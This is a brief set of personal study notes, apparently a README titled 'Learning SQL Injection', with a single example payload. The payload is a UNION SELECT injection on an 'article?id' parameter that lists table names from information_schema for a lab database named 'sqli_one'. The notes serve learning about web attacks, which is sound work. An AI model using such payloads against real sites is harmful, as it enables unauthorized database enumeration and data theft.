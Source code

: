 # Learning SQL Injection

Just taking some notes about different SQL Injections.

---------------------------------------------

* article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
